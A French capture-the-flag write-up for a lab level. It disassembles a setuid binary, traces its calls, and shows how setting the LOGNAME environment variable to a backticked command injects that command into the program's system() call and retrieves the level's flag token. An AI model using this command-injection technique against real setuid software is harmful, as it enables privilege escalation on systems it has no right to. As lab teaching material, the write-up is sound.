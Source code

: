 # LEvel 07

- On commence par regarder ce qu'on a avec `ls -la`
```
level07
```
On a un binaire avec des sticky rights qu'on commence a bien connaitre.   
Maintenant il faut comprendre ce qu'il fait:
- `strings`
RAS

- Du coup tristesse, la seule option qui nous reste : dump le binaire pour essayer de comprendre `objdump -D level07`

```objdump
08048514 <main>:
 8048514:	55                   	push   %ebp
 8048515:	89 e5                	mov    %esp,%ebp
 8048517:	83 e4 f0             	and    $0xfffffff0,%esp
 804851a:	83 ec 20             	sub    $0x20,%esp
 804851d:	e8 ce fe ff ff       	call   80483f0 <getegid@plt>
 8048522:	89 44 24 18          	mov    %eax,0x18(%esp)
 8048526:	e8 b5 fe ff ff       	call   80483e0 <geteuid@plt>
 804852b:	89 44 24 1c          	mov    %eax,0x1c(%esp)
 804852f:	8b 44 24 18          	mov    0x18(%esp),%eax
 8048533:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048537:	8b 44 24 18          	mov    0x18(%esp),%eax
 804853b:	89 44 24 04          	mov    %eax,0x4(%esp)
 804853f:	8b 44 24 18          	mov    0x18(%esp),%eax
 8048543:	89 04 24             	mov    %eax,(%esp)
 8048546:	e8 05 ff ff ff       	call   8048450 <setresgid@plt>
 804854b:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 804854f:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048553:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 8048557:	89 44 24 04          	mov    %eax,0x4(%esp)
 804855b:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 804855f:	89 04 24             	mov    %eax,(%esp)
 8048562:	e8 69 fe ff ff       	call   80483d0 <setresuid@plt>
 8048567:	c7 44 24 14 00 00 00 	movl   $0x0,0x14(%esp)
 804856e:	00
 804856f:	c7 04 24 80 86 04 08 	movl   $0x8048680,(%esp)
 8048576:	e8 85 fe ff ff       	call   8048400 <getenv@plt>
 804857b:	89 44 24 08          	mov    %eax,0x8(%esp)
 804857f:	c7 44 24 04 88 86 04 	movl   $0x8048688,0x4(%esp)
 8048586:	08
 8048587:	8d 44 24 14          	lea    0x14(%esp),%eax
 804858b:	89 04 24             	mov    %eax,(%esp)
 804858e:	e8 ad fe ff ff       	call   8048440 <asprintf@plt>
 8048593:	8b 44 24 14          	mov    0x14(%esp),%eax
 8048597:	89 04 24             	mov    %eax,(%esp)
 804859a:	e8 71 fe ff ff       	call   8048410 <system@plt>
 804859f:	c9                   	leave
 80485a0:	c3                   	ret
 80485a1:	90                   	nop
 80485a2:	90                   	nop
 80485a3:	90                   	nop
 80485a4:	90                   	nop
 80485a5:	90                   	nop
 80485a6:	90                   	nop
 80485a7:	90                   	nop
 80485a8:	90                   	nop
 80485a9:	90                   	nop
 80485aa:	90                   	nop
 80485ab:	90                   	nop
 80485ac:	90                   	nop
 80485ad:	90                   	nop
 80485ae:	90                   	nop
 80485af:	90                   	nop
```
- On repère la fonction asprintf qui semble print le nom du fichier
- On voit un getenv
- Pour mieux comprendre on fait un ltrace qui trace les appels aux librairies du binaire

`ltrace ./level07` result:
```
__libc_start_main(0x8048514, 1, 0xbffff6f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                 = 2007
geteuid()                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
getenv("LOGNAME")                                         = "level07"
asprintf(0xbffff644, 0x8048688, 0xbfffff28, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                    = 0
+++ exited (status 0) +++
```

On repère un appelle de variable d'env "LOGNAME" suivi d'un call `system()` ou on aimerai injecter du code

```python
getenv("LOGNAME") = "level07"
system("/bin/echo level07 ")
```

Avec un peu de chance le `level07` de l'appel systeme `bin/echo level07` vient de la variable logname. verifions cela:  

```bash
strings ./level07 | grep %s
/bin/echo %s
```

On remplace `LOGNAME` par `getflag` (backticks) pour run `/bin/echo 'getflag'`

```bash
export LOGNAME="\`getflag\`"
./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Tadaaa !

